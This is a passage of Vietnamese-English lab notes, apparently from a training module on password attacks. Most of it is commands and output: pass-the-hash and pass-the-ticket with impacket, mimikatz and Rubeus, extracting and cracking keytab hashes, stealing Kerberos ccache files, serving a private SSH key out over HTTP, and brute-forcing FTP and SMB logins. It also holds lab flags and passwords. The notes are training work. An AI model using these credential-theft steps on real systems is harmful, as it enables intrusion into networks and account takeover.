❯ impacket-psexec john@10.129.148.231  -hashes :c4b0e1b10c7ce2c4723b4e2407ef81a2
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.129.148.231.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
                                                                                                                                                                                             
❯ impacket-wmiexec john@10.129.148.231  -hashes :c4b0e1b10c7ce2c4723b4e2407ef81a2
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[-] rpc_s_access_denied
                                                                                                                                                                                             
❯ impacket-atexec john@10.129.148.231  -hashes :c4b0e1b10c7ce2c4723b4e2407ef81a2
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[!] This will work ONLY on Windows >= Vista
[-] You need to specify a command to execute!
                                                                                                                                                                                             
❯ impacket-smbexec john@10.129.148.231  -hashes :c4b0e1b10c7ce2c4723b4e2407ef81a2
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
```

# Pass the Ticket (PtT) from Windows

- **Connect to the target machine using RDP and the provided creds. Export all tickets present on the computer. How many users TGT did you collect?**


Như vậy ta có vé của 3 users là julio, john và david.

+ **0  Use john's TGT to perform a Pass the Ticket attack and retrieve the flag from the shared folder \\DC01.inlanefreight.htb\john**


+ **0  Use john's TGT to perform a Pass the Ticket attack and connect to the DC01 using PowerShell Remoting. Read the flag from C:\john\john.txt**


hoặc


#### Optional Exercises

Challenge your understanding of the Module content and answer the optional question(s) below. These are considered supplementary content and are not required to complete the Module. You can reveal the answer at any time to check your work.

Target(s):  Target(s) are spawning...  

**Optional: Try to use both tools, Mimikatz and Rubeus, to perform the attacks without relying on each other. Mark DONE when finish.**

Thuần mimikatz như ở trên

Rubeus:


# Pass the Ticket (PtT) from Linux

 SSH to 10.129.204.23 (ACADEMY-PWATTACKS-LM-MS01) with user "david@inlanefreight.htb" and password "Password2"


+ 0  Connect to the target machine using SSH to the port TCP/2222 and the provided credentials. Read the flag in David's home directory.

```zsh
david@inlanefreight.htb@linux01:~$ ls
flag.txt
david@inlanefreight.htb@linux01:~$ cat flag.txt 
Gett1ng_Acc3$$_to_LINUX01

david@inlanefreight.htb@linux01:~$ 
```

+ 0  Which group can connect to LINUX01?

 ```zsh
 david@inlanefreight.htb@linux01:~$ realm list
inlanefreight.htb
  type: kerberos
  realm-name: INLANEFREIGHT.HTB
  domain-name: inlanefreight.htb
  configured: kerberos-member
  server-software: active-directory
  client-software: sssd
  required-package: sssd-tools
  required-package: sssd
  required-package: libnss-sss
  required-package: libpam-sss
  required-package: adcli
  required-package: samba-common-bin
  login-formats: %U@inlanefreight.htb
  login-policy: allow-permitted-logins
  permitted-logins: david@inlanefreight.htb, julio@inlanefreight.htb
  permitted-groups: Linux Admins
```

+ 0  Look for a keytab file that you have read and write access. Submit the file name as a response.

```zsh
david@inlanefreight.htb@linux01:~$ find / -type f -name "*.keytab" -ls 2>/dev/null
   131610      4 -rw-------   1 root     root         1348 Oct  4  2022 /etc/krb5.keytab
   262184      4 -rw-rw-rw-   1 root     root          216 Apr 28 14:20 /opt/specialfiles/carlos.keytab
```

+ 0  Extract the hashes from the keytab file you found, crack the password, log in as the user and submit the flag in the user's home directory.

Đầu tiên extract lấy hash của `Carlos`

 ```zsh
 david@inlanefreight.htb@linux01:/opt/specialfiles$ python3 /opt/keytabextract.py carlos.keytab 
[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : INLANEFREIGHT.HTB
        SERVICE PRINCIPAL : carlos/
        NTLM HASH : a738f92b3c08b424ec2d99589a9cce60
        AES-256 HASH : 42ff0baa586963d9010584eb9590595e8cd47c489e25e82aae69b1de2943007f
        AES-128 HASH : fa74d5abf4061baa1d4ff8485d1261c4
```

Tiến hành crack:

```zsh
❯ hashcat -m 1000 'a738f92b3c08b424ec2d99589a9cce60' /usr/share/wordlists/rockyou.txt

a738f92b3c08b424ec2d99589a9cce60:Password5
```

Đăng nhập as Carlos

```zsh
david@inlanefreight.htb@linux01:~$ su carlos@inlanefreight.htb
Password: 
carlos@inlanefreight.htb@linux01:/home/david@inlanefreight.htb$ cd
carlos@inlanefreight.htb@linux01:~$ cat flag.txt 
C@rl0s_1$_H3r3
```

+ 0  Check Carlos' crontab, and look for keytabs to which Carlos has access. Try to get the credentials of the user svc_workstations and use them to authenticate via SSH. Submit the flag.txt in svc_workstations' home directory.

 Check crontab list:

```zsh
carlos@inlanefreight.htb@linux01:~$ crontab -l
# Edit this file to introduce tasks to be run by cron.
# 
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
# 
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').
# 
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
# 
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
# 
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
# 
# For more information see the manual pages of crontab(5) and cron(8)
# 
# m h  dom mon dow   command
*/5 * * * * /home/carlos@inlanefreight.htb/.scripts/kerberos_script_test.sh

```

Check file .sh & file result

```zsh
carlos@inlanefreight.htb@linux01:~$ cat /home/carlos@inlanefreight.htb/.scripts/kerberos_script_test.sh
#!/bin/bash

kinit svc_workstations@INLANEFREIGHT.HTB -k -t /home/carlos@inlanefreight.htb/.scripts/svc_workstations.kt
smbclient //dc01.inlanefreight.htb/svc_workstations -c 'ls'  -k -no-pass > /home/carlos@inlanefreight.htb/script-test-results.txt

carlos@inlanefreight.htb@linux01:~$ cat /home/carlos@inlanefreight.htb/script-test-results.txt
session setup failed: NT_STATUS_CONNECTION_RESET
```

Extract hash from keytab file:

```zsh
carlos@inlanefreight.htb@linux01:~$ python3 /opt/keytabextract.py /home/carlos@inlanefreight.htb/.scripts/svc_workstations.kt
[!] No RC4-HMAC located. Unable to extract NTLM hashes.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[!] Unable to identify any AES128-CTS-HMAC-SHA1 hashes.
[+] Keytab File successfully imported.
        REALM : INLANEFREIGHT.HTB
        SERVICE PRINCIPAL : svc_workstations/
        AES-256 HASH : 0c91040d4d05092a3d545bbf76237b3794c456ac42c8d577753d64283889da6d
```

Quả hash này tôi chịu, không thể crack được. Đọc hint có thể còn file khác?


```zsh
carlos@inlanefreight.htb@linux01:~$ find / -name *keytab* -ls 2>/dev/null
   287437      4 -rw-r--r--   1 root     root         2110 Aug  9  2021 /usr/lib/python3/dist-packages/samba/tests/dckeytab.py
   288276      4 -rw-r--r--   1 root     root         1871 Oct  4  2022 /usr/lib/python3/dist-packages/samba/tests/__pycache__/dckeytab.cpython-38.pyc
   287720     24 -rw-r--r--   1 root     root        22768 Jul 18  2022 /usr/lib/x86_64-linux-gnu/samba/ldb/update_keytab.so
   286812     28 -rw-r--r--   1 root     root        26856 Jul 18  2022 /usr/lib/x86_64-linux-gnu/samba/libnet-keytab.so.0
   288491      4 -rw-------   1 carlos@inlanefreight.htb domain users@inlanefreight.htb      146 Oct  6  2022 /home/carlos@inlanefreight.htb/.scripts/john.keytab
   131610      4 -rw-------   1 root                     root                               2694 Apr 29 08:13 /etc/krb5.keytab
   262464     12 -rw-r--r--   1 root                     root                              10015 Oct  4  2022 /opt/impacket/impacket/krb5/keytab.py
   262618      4 -rw-rw-rw-   1 root                     root                                216 Apr 29 08:45 /opt/specialfiles/carlos.keytab
   131201      8 -rw-r--r--   1 root                     root                               4582 Oct  6  2022 /opt/keytabextract.py
   287958      4 drwx------   2 sssd                     sssd                               4096 Jun 21  2022 /var/lib/sss/keytabs
   398204      4 -rw-r--r--   1 root                     root                                380 Oct  4  2022 /var/lib/gems/2.7.0/doc/gssapi-1.3.1/ri/GSSAPI/Simple/set_keytab-i.ri
carlos@inlanefreight.htb@linux01:~$ find / -name '*.kt' -ls 2>/dev/null
   262607      4 -rw-------   1 carlos@inlanefreight.htb domain users@inlanefreight.htb      246 Apr 29 08:45 /home/carlos@inlanefreight.htb/.scripts/svc_workstations._all.kt
   262163      4 -rw-------   1 carlos@inlanefreight.htb domain users@inlanefreight.htb       94 Apr 29 08:45 /home/carlos@inlanefreight.htb/.scripts/svc_workstations.kt

```

Giờ thì có vẻ ngon nghẻ rồi he

```zsh
carlos@inlanefreight.htb@linux01:~$ python3 /opt/keytabextract.py /home/carlos@inlanefreight.htb/.scripts/svc_workstations._all.kt
[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : INLANEFREIGHT.HTB
        SERVICE PRINCIPAL : svc_workstations/
        NTLM HASH : 7247e8d4387e76996ff3f18a34316fdd
        AES-256 HASH : 0c91040d4d05092a3d545bbf76237b3794c456ac42c8d577753d64283889da6d
        AES-128 HASH : 3a7e52143531408f39101187acc80677

```


```zsh
❯ hashcat -m 1000 '7247e8d4387e76996ff3f18a34316fdd' /usr/share/wordlists/rockyou.txt --show
7247e8d4387e76996ff3f18a34316fdd:Password4
```

```zsh
❯ ssh svc_workstations@inlanefreight.htb@10.129.204.23 -p2222
svc_workstations@inlanefreight.htb@linux01:~$ cat flag.txt 
Mor3_4cce$$_m0r3_Pr1v$
```

+ 0  Check the sudo privileges of the svc_workstations user and get access as root. Submit the flag in /root/flag.txt directory as the response.


+ 0  Check the /tmp directory and find Julio's Kerberos ticket (ccache file). Import the ticket and read the contents of julio.txt from the domain share folder \\DC01\julio.

 ```zsh
root@linux01:~# ls
flag.txt  krb5cc_647401106_GYvzap  krb5cc_647401106_HRJDux  snap
root@linux01:~# export KRB5CCNAME=/root/krb5cc_647401106_GYvzap
root@linux01:~# smbclient //dc01/julio -k -no-pass
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jul 14 12:25:24 2022
  ..                                  D        0  Thu Jul 14 12:25:24 2022
  julio.txt                           A       17  Thu Jul 14 21:18:12 2022

                7706623 blocks of size 4096. 4459314 blocks available
smb: \> get julio.txt
getting file \julio.txt of size 17 as julio.txt (8.3 KiloBytes/sec) (average 8.3 KiloBytes/sec)
smb: \> exit
root@linux01:~# cat julio.txt 
JuL1()_SH@re_fl@g
root@linux01:~# 

```

+ 0  Use the LINUX01$ Kerberos ticket to read the flag found in \\DC01\linux01. Submit the contents as your response (the flag starts with Us1nG_).

Chúng ta có quyền root, hãy thử với linikatz.sh

```zsh
root@linux01:~# chmod +x linikatz.sh 
root@linux01:~# ./linikatz.sh 

```

 Để ý đoạn này, ta có vé của LINUX01:

```zsh
Ticket cache: FILE:/var/lib/sss/db/ccache_INLANEFREIGHT.HTB
Default principal: LINUX01$@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
04/29/2025 09:15:01  04/29/2025 19:15:01  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 04/30/2025 09:15:01, Flags: RIA
        Etype (skey, tkt): aes256-cts-hmac-sha1-96, aes256-cts-hmac-sha1-96 , AD types: 
04/29/2025 09:15:01  04/29/2025 19:15:01  ldap/dc01.inlanefreight.htb@
        renew until 04/30/2025 09:15:01, Flags: RAO
        Etype (skey, tkt): aes256-cts-hmac-sha1-96, aes256-cts-hmac-sha1-96 , AD types: 
04/29/2025 09:15:01  04/29/2025 19:15:01  ldap/dc01.inlanefreight.htb@INLANEFREIGHT.HTB
        renew until 04/30/2025 09:15:01, Flags: RAO
        Etype (skey, tkt): aes256-cts-hmac-sha1-96, aes256-cts-hmac-sha1-96 , AD types: 

```

```zsh
root@linux01:~# cp /var/lib/sss/db/ccache_INLANEFREIGHT.HTB .
root@linux01:~# export KRB5CCNAME=/root/ccache_INLANEFREIGHT.HTB
root@linux01:~# klist
Ticket cache: FILE:/root/ccache_INLANEFREIGHT.HTB
Default principal: LINUX01$@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
04/29/2025 09:30:01  04/29/2025 19:30:01  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 04/30/2025 09:30:01
04/29/2025 09:30:01  04/29/2025 19:30:01  ldap/dc01.inlanefreight.htb@
        renew until 04/30/2025 09:30:01
04/29/2025 09:30:01  04/29/2025 19:30:01  ldap/dc01.inlanefreight.htb@INLANEFREIGHT.HTB
        renew until 04/30/2025 09:30:01
root@linux01:~# smbclient //dc01/linux01/ k -no-pass -c ls
  .                                   D        0  Wed Oct  5 14:17:02 2022
  ..                                  D        0  Wed Oct  5 14:17:02 2022
  flag.txt                            A       52  Wed Oct  5 14:17:02 2022

```


```zsh
smb: \> get flag.txt 
getting file \flag.txt of size 52 as flag.txt (25.4 KiloBytes/sec) (average 25.4 KiloBytes/sec)
smb: \> exit
root@linux01:~# cat flag.txt 
��Us1nG_KeyTab_Like_@_PRO
```


#### Optional Exercises

Challenge your understanding of the Module content and answer the optional question(s) below. These are considered supplementary content and are not required to complete the Module. You can reveal the answer at any time to check your work.

Target(s): 10.129.204.23 (ACADEMY-PWATTACKS-LM-MS01)   

Life Left: 166 Terminate 

Transfer Julio's ccache file from LINUX01 to your attack host. Follow the example to use chisel and proxychains to connect via evil-winrm from your attack host to MS01 and DC01. Mark DONE when finished.

 Set up kerberos



 Edit /etc/hosts
 

Proxychains4: Chỉnh về chế độ dynamic thay vì strict


Đưa file ccache của julio về:


Chuyển chisel sang và chạy:


Kết nối đến DC01 và MS01:


From Windows (MS01), export Julio's ticket using Mimikatz or Rubeus. Convert the ticket to ccache and use it from Linux to connect to the C disk. Mark DONE when finished.

```powershell
*Evil-WinRM* PS C:\Users\julio\Documents> cd C:\tools
*Evil-WinRM* PS C:\tools> .\mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" exit
[proxychains] Dynamic chain  ...  127.0.0.1:1080  ...  ms01:5985  ...  OK
[proxychains] Dynamic chain  ...  127.0.0.1:1080  ...  ms01:5985  ...  OK
Authentication Id : 0 ; 2107882 (00000000:002029ea)
Session           : Network from 0
User Name         : julio
Domain            : INLANEFREIGHT
Logon Server      : (null)
Logon Time        : 4/29/2025 5:51:50 AM
SID               : S-1-5-21-3325992272-2815718403-617452758-1106

         * Username : julio
         * Domain   : INLANEFREIGHT.HTB
         * Password : (null)

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?
         [00000000]
           Start/End/MaxRenew: 4/29/2025 5:51:49 AM ; 4/29/2025 3:20:01 PM ;
           Service Name (01) : HTTP ; ms01 ; @ INLANEFREIGHT.HTB
           Target Name  (--) : @ INLANEFREIGHT.HTB
           Client Name  (01) : julio ; @ INLANEFREIGHT.HTB
           Flags 50a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; proxiable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             74ed1d4932e12c2d6efe2f3582c45283ee5a3551879a97933408e4de6b2edbe8
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 3        [...]
           * Saved to file [0;2029ea]-1-0-50a50000-julio@HTTP-ms01.kirbi !

```

```powershell
C:\tools> $bytes = [IO.File]::ReadAllBytes("[0;218a5b]-1-0-50a50000-julio@HTTP-ms01.kirbi")
*Evil-WinRM* PS C:\tools> [Convert]::ToBase64String($bytes)
[proxychains] Dynamic chain  ...  127.0.0.1:1080  ...  ms01:5985  ...  OK
[proxychains] Dynamic chain  ...  127.0.0.1:1080  ...  ms01:5985  ...  OK
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
```

Chuyển định dạng kirbi sang ccache dùng được cho linux:

```zsh
❯ impacket-ticketConverter new_julio julio_ccache
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] converting kirbi to ccache...
[+] done
❯ export KRB5CCNAME=/home/kali/Desktop/learning/password_attack/julio_ccache
❯ klist
Ticket cache: FILE:/home/kali/Desktop/learning/password_attack/julio_ccache
Default principal: julio@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
04/29/2025 06:51:49  04/29/2025 16:20:01  HTTP/ms01@INLANEFREIGHT.HTB

```


# Protected Files

- Use the cracked password of the user Kira and log in to the host and crack the "id_rsa" SSH key. Then, submit the password for the SSH key as the answer.
`kira:L0vey0u1!`


```zsh
kira@nix01:~$ find / -type f -name '*id_rsa* 2>/dev/null
> ^C
kira@nix01:~$ find / -type f -name '*id_rsa*' 2>/dev/null
/home/kira/.ssh/id_rsa
/home/kira/.ssh/id_rsa.pub
kira@nix01:~$ cd .ssh/
kira@nix01:~/.ssh$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.14.239 - - [29/Apr/2025 14:22:19] "GET /id_rsa HTTP/1.1" 200 -
```

```zsh
❯ ssh2john id_rsa > ssh_encrypted
❯ john --wordlist=/usr/share/wordlists/rockyou.txt ssh_encrypted
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
L0veme           (id_rsa)     
1g 0:00:00:00 DONE (2025-04-29 10:23) 2.941g/s 6243Kp/s 6243Kc/s 6243KC/s L112893..Kymba22
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

# Protected Archives

 - Use the cracked password of the user Kira, log in to the host, and read the Notes.zip file containing the flag. Then, submit the flag as the answer.


```zsh
❯ zip2john Notes.zip > kira_note_hash
ver 1.0 efh 5455 efh 7875 Notes.zip/notes.txt PKZIP Encr: 2b chk, TS_chk, cmplen=38, decmplen=26, crc=D0CED23B ts=7EF8 cs=7ef8 type=0
❯ john --wordlist=mut_password.list kira_note_hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
P@ssw0rd3!       (Notes.zip/notes.txt)     
1g 0:00:00:00 DONE (2025-04-29 11:00) 100.0g/s 8192Kp/s 8192Kc/s 8192KC/s P00hbear2022..Shorty81!
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

# Password Attacks Lab - Easy

Our client Inlanefreight contracted us to assess individual hosts in their network, focusing on access control. The company recently implemented security controls related to authorization that they would like us to test. There are three hosts in scope for this assessment. The first host is used for administering and managing other servers within their environment.

### Nmap

```zsh
❯ sudo nmap -sS -T 4 -p- --min-rate 3000 10.129.120.192 -oN easylab.txt -v
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-29 11:24 EDT
Initiating Ping Scan at 11:24
Scanning 10.129.120.192 [4 ports]
Completed Ping Scan at 11:24, 0.92s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:24
Completed Parallel DNS resolution of 1 host. at 11:24, 0.07s elapsed
Initiating SYN Stealth Scan at 11:24
Scanning 10.129.120.192 [65535 ports]
Discovered open port 21/tcp on 10.129.120.192
Discovered open port 22/tcp on 10.129.120.192
Increasing send delay for 10.129.120.192 from 0 to 5 due to 64 out of 159 dropped probes since last increase.
Increasing send delay for 10.129.120.192 from 5 to 10 due to 536 out of 1339 dropped probes since last increase.
Warning: 10.129.120.192 giving up on port because retransmission cap hit (6).
Completed SYN Stealth Scan at 11:24, 30.97s elapsed (65535 total ports)
Nmap scan report for 10.129.120.192
Host is up (0.33s latency).
Not shown: 64824 closed tcp ports (reset), 709 filtered tcp ports (no-response)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 32.08 seconds
           Raw packets sent: 89454 (3.936MB) | Rcvd: 66523 (2.661MB)

```

### Hydra
```zsh
hydra -L username.list -P password.list ftp://10.129.120.192 -I -t 64 -v -R
```

### FTP

```zsh
❯ ftp 10.129.120.192 21
Connected to 10.129.120.192.
220 (vsFTPd 3.0.3)
Name (10.129.120.192:kali): mike
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||10005|)
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000          554 Feb 09  2022 authorized_keys
-rw-------    1 1000     1000         2546 Feb 09  2022 id_rsa
-rw-r--r--    1 1000     1000          570 Feb 09  2022 id_rsa.pub
226 Directory send OK.
ftp> mget authorized_keys id_rsa id_rsa.pub
```

### Crack ssh Phrase

```zsh
❯ ssh2john id_rsa > ssh_encrypted 
❯ john --wordlist=../mut_password.list ssh_encrypted
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
7777777          (id_rsa)     
1g 0:00:00:00 DONE (2025-04-29 12:01) 100.0g/s 307200p/s 307200c/s 307200C/s 66666681!..77777
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

```ssh
mike@skills-easy:~$ cat .bash_history
```


# Password Attacks Lab - Medium
Our next host is a workstation used by an employee for their day-to-day work. These types of hosts are often used to exchange files with other employees and are typically administered by administrators over the network. During a meeting with the client, we were informed that many internal users use this host as a jump host. The focus is on securing and protecting files containing sensitive information.
- Examine the second target and submit the contents of flag.txt in /root/ as the answer.

### Nmap
```zsh
❯ sudo nmap -sS -T 4 -p- --min-rate 3000 10.129.26.117 -oN mediumlab.txt -v
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-29 12:07 EDT
Initiating Ping Scan at 12:07
Scanning 10.129.26.117 [4 ports]
Completed Ping Scan at 12:07, 0.31s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 12:07
Completed Parallel DNS resolution of 1 host. at 12:07, 0.06s elapsed
Initiating SYN Stealth Scan at 12:07
Scanning 10.129.26.117 [65535 ports]
Discovered open port 139/tcp on 10.129.26.117
Discovered open port 445/tcp on 10.129.26.117
Discovered open port 22/tcp on 10.129.26.117
Increasing send delay for 10.129.26.117 from 0 to 5 due to max_successful_tryno increase to 5
Increasing send delay for 10.129.26.117 from 5 to 10 due to max_successful_tryno increase to 6
Warning: 10.129.26.117 giving up on port because retransmission cap hit (6).
Completed SYN Stealth Scan at 12:08, 28.50s elapsed (65535 total ports)
Nmap scan report for 10.129.26.117
Host is up (0.27s latency).
Not shown: 65525 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    open     ssh
139/tcp   open     netbios-ssn
445/tcp   open     microsoft-ds
3099/tcp  filtered chmd
10807/tcp filtered unknown
13894/tcp filtered ucontrol
27592/tcp filtered unknown
34388/tcp filtered unknown
51806/tcp filtered unknown
54514/tcp filtered unknown

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 28.98 seconds
           Raw packets sent: 84012 (3.697MB) | Rcvd: 67015 (2.681MB)

```

### Hydra

```zsh
❯ hydra -L ../username.list -P ../password.list smb://10.129.26.117 -I -t 64 -v
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-29 12:44:18
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 1 task per 1 server, overall 1 task, 21112 login tries (l:104/p:203), ~21112 tries per task
[DATA] attacking smb://10.129.26.117:445/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ERROR] target smb://10.129.26.117:445/ does not support SMBv1
```

### msfconsole

```zsh
msf6 auxiliary(scanner/smb/smb_login) > set user_file ../username.list
user_file => ../username.list
msf6 auxiliary(scanner/smb/smb_login) > set pass_file ../password.list
pass_file => ../password.list
msf6 auxiliary(scanner/smb/smb_login) > set rhosts 10.129.26.117
rhosts => 10.129.26.117
msf6 auxiliary(scanner/smb/smb_login) > run
[*] 10.129.26.117:445     - 10.129.26.117:445 - Starting SMB login bruteforce
[+] 10.129.26.117:445     - 10.129.26.117:445 - Success: '.\john:123456'
[!] 10.129.26.117:445     - No active DB -- Credential data will not be saved!
[+] 10.129.26.117:445     - 10.129.26.117:445 - Success: '.\dennis:123456'
[+] 10.129.26.117:445     - 10.129.26.117:445 - Success: '.\chris:123456'
[+] 10.129.26.117:445     - 10.129.26.117:445 - Success: '.\cassie:123456'
[+] 10.129.26.117:445     - 10.129.26.117:445 - Success: '.\admin:123456'
[+] 10.129.26.117:445     - 10.129.26.117:445 - Success: '.\root:123456'
[+] 10.129.26.117:445     - 10.129.26.117:445 - Success: '.\sysadmin:123456'
[+] 10.129.26.117:445     - 10.129.26.117:445 - Success: '.\sysadm:123456'
[+] 10.129.26.117:445     - 10.129.26.117:445 - Success: '.\svc:123456'
[+] 10.129.26.117:445     - 10.129.26.117:445 - Success: '.\administrator:123456'
[+] 10.129.26.117:445     - 10.129.26.117:445 - Success: '.\helpdesk:123456'
[+] 10.129.26.117:445     - 10.129.26.117:445 - Success: '.\reception:123456'
